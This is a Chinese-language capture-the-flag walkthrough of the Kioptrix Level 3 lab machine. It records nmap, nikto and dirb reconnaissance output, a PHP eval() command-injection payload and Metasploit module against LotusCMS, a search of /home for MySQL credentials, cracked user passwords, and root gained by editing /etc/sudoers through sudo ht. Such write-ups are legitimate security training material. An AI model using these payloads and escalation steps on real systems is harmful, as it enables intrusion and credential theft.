




# 一、信息收集

1. 主机发现，如下，192.168.0.100是vm主机，应该是靶机
   
   ```shell
   arp-scan -l
   ```
   
    

2. 端口扫描，如下。只有两个端口22和80，80端口开放有web服务，web中间件为Apache httpd 2.2.8，主机系统为Ubuntu 5.6，web语言为PHP 5.2.4
   
   ```shell
   nmap -sV -sC -T4 192.168.0.100
   ```
   
    

3. 扫描一下web信息，如下，web使用了LotusCMS
   
   ```shell
   whatweb http://192.168.0.100
   ```
   
    

4. 扫描一下主机漏洞，如下，发现存在SQL注入、CSRF、phpmyadmin，web未设置httponly
   
   ```shell
   nmap --script=vuln 192.168.0.100
   # 扫描结果如下
   PORT   STATE SERVICE
   22/tcp open  ssh
   80/tcp open  http
   | http-slowloris-check: 
   |   VULNERABLE:
   |   Slowloris DOS attack
   |     State: LIKELY VULNERABLE
   |     IDs:  CVE:CVE-2007-6750
   |       Slowloris tries to keep many connections to the target web server open and hold
   |       them open as long as possible.  It accomplishes this by opening connections to
   |       the target web server and sending a partial request. By doing so, it starves
   |       the http server's resources causing Denial Of Service.
   |       
   |     Disclosure date: 2009-09-17
   |     References:
   |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
   |_      http://ha.ckers.org/slowloris/
   | http-cookie-flags: 
   |   /: 
   |     PHPSESSID: 
   |_      httponly flag not set
   |_http-trace: TRACE is enabled
   | http-sql-injection: 
   |   Possible sqli for queries:
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |     http://192.168.0.100:80/index.php?page=index%27%20OR%20sqlspider
   |_    http://192.168.0.100:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
   |_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
   | http-csrf: 
   | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.0.100
   |   Found the following possible CSRF vulnerabilities: 
   |     
   |     Path: http://192.168.0.100:80/gallery/
   |     Form id: 
   |     Form action: login.php
   |     
   |     Path: http://192.168.0.100:80/index.php?system=Admin
   |     Form id: contactform
   |     Form action: index.php?system=Admin&page=loginSubmit
   |     
   |     Path: http://192.168.0.100:80/gallery/gadmin/
   |     Form id: username
   |     Form action: index.php?task=signin
   |     
   |     Path: http://192.168.0.100:80/gallery/index.php
   |     Form id: 
   |     Form action: login.php
   |     
   |     Path: http://192.168.0.100:80/index.php?system=Blog&post=1281005380
   |     Form id: commentform
   |     Form action: 
   |     
   |     Path: http://192.168.0.100:80/index.php?system=Admin&page=loginSubmit
   |     Form id: contactform
   |_    Form action: index.php?system=Admin&page=loginSubmit
   | http-enum: 
   |   /phpmyadmin/: phpMyAdmin
   |   /cache/: Potentially interesting folder
   |   /core/: Potentially interesting folder
   |   /icons/: Potentially interesting folder w/ directory listing
   |   /modules/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) php/5.2.4-2ubuntu5.6 with suhosin-patch'
   |_  /style/: Potentially interesting folder
   |_http-dombased-xss: Couldn't find any DOM based XSS.
   |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
   ```

5. nitkto扫描一下web漏洞，如下
   
   ```shell
   nikto -h http://192.168.0.100
   ```
   
    

6. 扫描web目录
   
   ```shell
   dirb http://192.168.0.100
   # 扫描结果如下
   ---- Scanning URL: http://192.168.0.100/ ----
   ==> DIRECTORY: http://192.168.0.100/cache/                                                                     
   ==> DIRECTORY: http://192.168.0.100/core/                                                                                        
   + http://192.168.0.100/data (CODE:403|SIZE:324)                                                                               
   + http://192.168.0.100/favicon.ico (CODE:200|SIZE:23126)                                                                         
   ==> DIRECTORY: http://192.168.0.100/gallery/                                                                                  
   + http://192.168.0.100/index.php (CODE:200|SIZE:1819)                                                                            
   ==> DIRECTORY: http://192.168.0.100/modules/                                                                                  
   ==> DIRECTORY: http://192.168.0.100/phpmyadmin/                                                                               
   + http://192.168.0.100/server-status (CODE:403|SIZE:333)                                                                         
   ==> DIRECTORY: http://192.168.0.100/style/                                                                               
   ---- Entering directory: http://192.168.0.100/cache/ ----
   + http://192.168.0.100/cache/index.html (CODE:200|SIZE:1819)                                                                                
   ---- Entering directory: http://192.168.0.100/core/ ----
   ==> DIRECTORY: http://192.168.0.100/core/controller/                                                                             
   + http://192.168.0.100/core/index.php (CODE:200|SIZE:0)                                                                          
   ==> DIRECTORY: http://192.168.0.100/core/lib/                                                                                    
   ==> DIRECTORY: http://192.168.0.100/core/model/                                                                                  
   ==> DIRECTORY: http://192.168.0.100/core/view/                                                                               
   ---- Entering directory: http://192.168.0.100/gallery/ ----
   + http://192.168.0.100/gallery/index.php (CODE:500|SIZE:5650)                                                                    
   ==> DIRECTORY: http://192.168.0.100/gallery/photos/                                                                              
   ==> DIRECTORY: http://192.168.0.100/gallery/themes/                                                                           
   ---- Entering directory: http://192.168.0.100/modules/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)                                                                    
   ---- Entering directory: http://192.168.0.100/phpmyadmin/ ----
   + http://192.168.0.100/phpmyadmin/favicon.ico (CODE:200|SIZE:18902)                                                              
   + http://192.168.0.100/phpmyadmin/index.php (CODE:200|SIZE:8136)                                                                 
   ==> DIRECTORY: http://192.168.0.100/phpmyadmin/js/                                                                               
   ==> DIRECTORY: http://192.168.0.100/phpmyadmin/lang/                                                                             
   + http://192.168.0.100/phpmyadmin/libraries (CODE:403|SIZE:340)                                                                  
   + http://192.168.0.100/phpmyadmin/phpinfo.php (CODE:200|SIZE:0)                                                                  
   ==> DIRECTORY: http://192.168.0.100/phpmyadmin/scripts/                                                                          
   ==> DIRECTORY: http://192.168.0.100/phpmyadmin/themes/                                                                           
   ---- Entering directory: http://192.168.0.100/style/ ----
   + http://192.168.0.100/style/admin.php (CODE:200|SIZE:356)                                                                       
   + http://192.168.0.100/style/index.php (CODE:200|SIZE:0)                                                                           
   ---- Entering directory: http://192.168.0.100/core/controller/ ----
   + http://192.168.0.100/core/controller/index.php (CODE:200|SIZE:0)                                                                       
   ---- Entering directory: http://192.168.0.100/core/lib/ ----
   + http://192.168.0.100/core/lib/index.php (CODE:200|SIZE:0)                                                                         
   ---- Entering directory: http://192.168.0.100/core/model/ ----
   + http://192.168.0.100/core/model/index.php (CODE:200|SIZE:0)                                                                       
   ---- Entering directory: http://192.168.0.100/core/view/ ----
   + http://192.168.0.100/core/view/index.php (CODE:200|SIZE:0)                                                                       
   ---- Entering directory: http://192.168.0.100/gallery/photos/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)                                                                 
   ---- Entering directory: http://192.168.0.100/gallery/themes/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)                                                                     
   ---- Entering directory: http://192.168.0.100/phpmyadmin/js/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)                                                                 
   ---- Entering directory: http://192.168.0.100/phpmyadmin/lang/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)                                                                
   ---- Entering directory: http://192.168.0.100/phpmyadmin/scripts/ ----
   (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
       (Use mode '-w' if you want to scan it anyway)                                                                
   ---- Entering directory: http://192.168.0.100/phpmyadmin/themes/ ----
   ```

# 二、getshell

1. phpmyadmin界面使用admin和空密码可以登录，phpmyadmin后台显示mysql版本为5.0.51a
    

2. 写入shell失败，应该是没有权限

3. 查看nmap扫描出来的注入，单引号报错回显了网站绝对路径，且该处函数为eval()，这里应该可以执行命令
   
   ```shell
   /home/www/kioptrix3.com/
   ```
   
    

4. 尝试注入id命令，如下，为www-data权限
   
   ```shell
   ${@print(system("id"))}\
   ```
   
     

5. 直接尝试反弹shell失败，可能是姿势不对，使用msf搜索LotusCMS的漏洞，发现有一个exp，换了几个payload，最后使用如下姿势成功拿到shell
   
   ```shell
   use exploit/multi/http/lcms_php_exec
   set rhost 192.168.0.100
   set payload generic/shell_bind_tcp
   exploit
   ```
   
    

# 三、权限提升

1. ctrl+z返回msf，使用msf自动提权模块提权失败

2. 尝试寻找mysql的账号密码，如下，成功找到mysql的root密码fuckeyou
   
   ```shell
   grep -r "localhost" /home
   ```
   
     

3. 使用root/fuckeyou登录phpmyadmin，发现一个dev_accounts表
     

4. 成功得到两个用户，解密后得到如下用户密码
   
   ```shell
   dreg/Mast3r
   loneferret/starwars
   ```
   
     

5. 使用loneferret/starwars登录主机，不是root权限，sudo -l发现ht有root权限，ht是一个编辑器，如果这里使用linux进行ssh连接报错，执行如下命令，因为尝试多次ssh老是无法连接，于是把kali和靶机都删除重新下载了一次，于是后面ip跟前面不一样了
   
   ```shell
   ssh -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.0.104
   ```
   
      

6. ls发现当前路径下有文件，cat查看CompanyPolicy.README报错提示需要sudo ht才可以查看
      

7. 直接sudo ht报错，将xterm终端添加到环境变量
   
   ```shell
   export TERM=xterm-color
   ```
   
      

8. 再次sudo ht，成功打开ht，注意，这里如果使用windows终端打开的话按F3会有问题，一定要用linux的终端打开
      

9. 由于当前的loneferret用户没有sudo权限，需要使用ht编辑/etc/sudoers文件给当前用户添加以root执行/bin/bash的权限，根据提示使用F3打开文件输入/etc/sudoers回车
      

10. 在loneferrent这一行的末尾输入如下数据，按F2保存，F10退出

    ```shell
    ,/bin/bash
    ```
    
    
    11. 输入如下命令，成功提权
    
    ```shell
    sudo /bin/bash
    ```
    
    
